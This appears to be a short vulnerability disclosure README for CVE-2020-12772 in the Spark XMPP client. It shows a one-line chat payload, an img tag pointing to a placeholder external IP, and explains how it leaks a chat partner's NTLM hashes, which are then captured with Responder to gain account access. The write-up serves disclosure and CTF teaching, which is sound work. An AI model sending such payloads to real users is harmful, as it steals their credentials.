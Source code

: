 # CVE-2020-12772

## Description

When [@4nqr34z](https://twitter.com/4nqr34z) and myself, [@theart42](https://twitter.com/theart42), were building a CTF box, we came accross an interesting
vulnerability in the Spark XMPP client and its ROAR module.

![Spark client](pictures/spark_client.png)

When we opened a chat with another user, we could send an `<img ` tag to that user with an
external URL as the source of that image, like this:

`<img src=[external_ip]/test.img>`

Each time the user clicks the link, or the ROAR module automatically preloads it, the external
server receives the request for the image, together with the NTLM hashes from the user that visits
the link, i.e. the user you are chatting with!

## Exploitation
For our CTF box, this was golden. By running responder, we could capture the hashes and use them
to gain access to the user account and escalate our privileges (depending on the user of course).

![Responder](pictures/responder.png)

## Mitigation
The developer hasa been notified and a fix is underway
